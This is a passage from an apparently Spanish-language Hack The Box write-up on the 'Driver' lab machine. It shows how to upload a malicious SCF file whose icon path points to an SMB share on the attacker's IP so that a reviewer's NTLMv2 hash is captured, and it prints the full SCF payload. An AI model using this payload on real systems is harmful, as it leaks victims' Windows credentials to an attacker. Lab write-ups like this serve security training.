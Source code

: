 ![](/assets/images/htb-writeup-driver/web3.png)

# SCF Malicious File 

Y bueno nos están diciendo que el equipo revisa las subidas de archivos manualmente así que si alguien por detrás esta revisando los archivos podemos tratar de obtener su **hash** **NTLMv2** <https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/>

![](/assets/images/htb-writeup-driver/web5.png)

Vamos a estar usando un archivo **SCF** (Shell Command Files) cuando tu subes un archivo como este nosotros vamos a decirle que cargue un icono que esta alojado en nuestra maquina de atacante mediante un recurso compartido a nivel de red y podemos ponerle cualquier nombre al icono (el icono no es necesario que exista)

```bash
❯ catn yourhash.scf
[Shell]
Command=2
IconFile=\\10.10.14.9\smbFolder\pentestlab.ico
[Taskbar]
Command=ToggleDesktop

```

Ahora vamos a usar **smbserver** para hacer esto ademas le estamos dando soporte ala versión 2 de smb por que es un **Windows 10** 
